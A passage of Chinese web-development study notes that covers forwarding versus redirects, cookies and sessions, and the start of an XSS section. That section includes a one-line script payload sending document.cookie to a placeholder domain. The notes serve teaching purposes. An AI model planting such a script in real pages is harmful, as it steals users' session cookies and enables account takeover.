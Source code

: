 - 转发过程：浏览器发送http请求——》服务器接受此请求——》调用内部的一个方法在容器内部完成请求处理和转发动作——》将目标资源发送给浏览器；
- 必须是同一个web容器下的url，中间传递的是自己的容器内的request。
- 浏览器路径栏：显示第一次访问的路径，客户是感觉不到服务器做了转发的。
- 传输的信息不会丢失。

### 重定向

- 重定向过程：客户浏览器发送http请求——》web服务器接受后发送302状态码响应及对应新的location给客户浏览器——》客户浏览器发现是302响应，则**自动**再发送一个新的http请求，请求url是新的location地址——》服务器根据此请求寻找资源并发送给客户。
- 可以重定向到任意URL，既然是浏览器重新发出了请求，则就没有什么request传递的概念了。
- 浏览器路径栏：显示的是其重定向的路径，客户可以观察到地址的变化的。
- 重定向，其实是至少两次request

> [HTTP中的重定向和请求转发的区别](https://www.cnblogs.com/yqin/archive/2010/06/07/1810454.html)



# SESSION

## cookie和session区别和联系？

1. 保存地方。Session是在**服务端保存**的一个数据结构，用来跟踪用户的状态，这个数据可以保存在集群、数据库、文件中；Cookie是**客户端保存**用户信息的一种机制，用来记录用户的一些信息，也是实现Session的一种方式。

2. 实现原理。session的运行依赖session id，而session id是存在cookie中的，也就是说，如果浏览器禁用了cookie ，同时session也会失效（但是可以通过url重写，即在url中传递session_id）
3. 大小。cookie最多为 300个 , 并且每个不能超过 4KB,每个 Web 站点能设置的 Cookie 总数不能超过 20个。session当访问增多，会比较占用你服务器的性能。
4. 安全。cookie不安全，可以通过XSS跨域攻击窃取

总的来说，cookie是钥匙，session是盒子。

## session的原理？

Session会话指的是从用户打开浏览器访问一个网站开始，无论在这个网站中访问了多少页面，点击了多少链接，都属于同一个会话。 直到该用户关闭浏览器为止，都属于同一个会话。比如网上购物，每个用户有自己的购物车，当点击下单时，由于HTTP协议无状态，并不知道是哪个用户操作的，所以服务端要为特定的用户创建特定的Session，用于标识这个用户，并且跟踪用户。

Session原理：浏览器第一次访问服务器时，服务器会响应一个cookie给浏览器。这个cookie记录的就是sessionId，之后每次访问携带着这个sessionId，服务器里查询该sessionId，便可以识别并跟踪特定的用户了。

Cookie原理：第一次访问服务器，服务器响应时，要求浏览器记住一个信息。之后浏览器每次访问服务器时候，携带第一次记住的信息访问。相当于服务器识别客户端的一个通行证。

Cookie不可跨域，浏览览器判断一个网站是否能操作另一个网站Cookie的依据是域名。Google与Baidu的域名不一样，因此Google不能操作Baidu的Cookie，换句话说Google只能操作Google的Cookie。

# 网络攻击

## 一、跨站脚本攻击（document.cookie）

```
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：
